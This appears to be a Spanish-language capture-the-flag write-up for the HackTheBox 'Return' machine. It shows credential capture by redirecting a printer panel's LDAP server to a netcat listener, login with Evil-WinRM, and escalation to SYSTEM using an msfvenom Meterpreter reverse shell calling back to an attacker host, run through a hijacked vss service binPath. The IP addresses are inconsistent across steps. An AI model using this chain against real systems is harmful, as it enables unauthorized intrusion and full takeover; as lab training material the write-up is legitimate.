










# Return

**Platform:** HackTheBox  
**Difficulty:** Easy  
**IP:** 10.10.32.21 

---

## 1. Información Inicial
- **Objetivo:** Obtener las tres llaves mediante pruebas de penetración.  
- **Herramientas iniciales:** `nmap`, `netcat`, `evil-winrm`, `msfconsole`, `msfvenom`, `meterpreter`.

---

## 2. Reconocimiento y enumeración

Primero realizamos un escaneo  con `Nmap` para identificar los servicios abiertos, aunque viendo los puertos 139 y 445 sabemos que se trata de un Active Directory.
```bash 
nmap -sC -sV -Pn -p- -sS 10.129.95.241
```



Añadiremos la máqunia al fichero /etc/hosts con el dominio que nos muestra LDAP:
```bash 
echo "110.129.95.241 return.local" | sudo tee -a /etc/hosts
```

Tras analizar los puertos básicos como SMB y no encontrar nada, precedemos a examinar el sitio web



En el sitio web encontramos un panel de administración para la gestión de impresoras. Si accedemos a la opción Settings tenemos varios parámetros como el servidor al que conectarse, el puerto, el usuario y una contraseña.



## 3. Explotación

Guardaremos el nombre del usuario por si nos puede servir en un futuro, y luego cambiamos la dirección del servidor por nuestra dirección IP. 

De esta manera, recibiremos una petición de conexión y debemos de tener a la escucha `netcat` para recibirla

```bash 
nc -lvnp 389
```


Al establecerse la conexión, recibimos un mensaje que parece una credencial de contraseña: `1edFg43012!!`

Podría estar relacionada con el nombre de usuario encontrado en la web, y de esa manera tener las credenciales completas: `svc-printer:1edFg43012!!`

Teniendo en cuenta que con Nmap hemos descubierto que se trataba de un Active Directory, vamos a usar las credenciales para entrar al servicio de administración remota de Windows con `Evil-WinRM`:

```bash 
evil-winrm -i 110.129.95.241 -u svc-printer -p '1edFg43012!!
```



## 4. Postexplotación

Hemos conseguido acceso a través de la herramienta Evil-WinRM y estamos dentro del sistema, por lo que vamos a comenzar a buscar algún punto vulnerable para escalar privilegios.

Tras algunas enumeraciones, se nos ocurre ver los grupos a los que pertenece el usuario desde el que hemos accedido.

```bash 
net user svc-printer
```



El usuario pertenece al grupo Server Operators, desde el cuál puede iniciar y parar servicios o hacer y restaurar backups, entre otras funciones.

La idea es crear un exploit con MSFVenom, subirlo por Evil-WinRM y ejecutarlo para recibir una conexión desde Multi/Handler.

```bash 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.39 LPORT=1337 -f exe > shell-x86.exe
```



```bash 
msfconsole
```
```bash 
use exploit/multi/handler
```
```bash 
set PAYLOAD windows/meterpreter/reverse_tcp
```
```bash 
set LHOST 10.10.14.39
```
```bash 
set LPORT 1337
```
```bash 
run
```

Ahora vamos a subir el fichero a la máquina víctima aprovechando los permisos que le otorga su grupo para poder obtener una shell.

Investigando por internet, di con una metodología que funcionaba cuando el usuario formaba parte de este grupo, y es que debemos de subir el fichero y utilizando sc.exe (ServiceControl) vamos a modificar un servicio (vss) para indicarle al sistema que su PATH es distinto (será la ubicación de nuestro fichero malicioso).

De esta manera, cada vez que se ejecute el servicio vss se estará ejecutando el exploit de MSFVenom.

```bash 
upload shell-x86.exe
```
```bash 
cd C:\
```
```bash 
sc.exe config vss binPath="C:\Users\svc-printer\Documents\shell-x86.exe"
```
```bash 
sc.exe start vss
```


Con Metasploit a la escucha y el exploit ejecutado, solo queda recibir la conexión a Meterpreter por parte de la máquina víctima.



Con la sesión de meterpreter aún no tenemos todos los privilegios necesarios, por lo que listamos los procesos y encontramos el proceso VGAuthService.exe (Servicio de VMWare Tools que se ejecuta como SYSTEM). Migramos la sesión de Meterpreter a ese proceso y estaremos obteniendo permisos de NT AUTHORITY/SYSTEM.
```bash 
ps
```
```bash 
migrate 3236
```
```bash 
shell
```


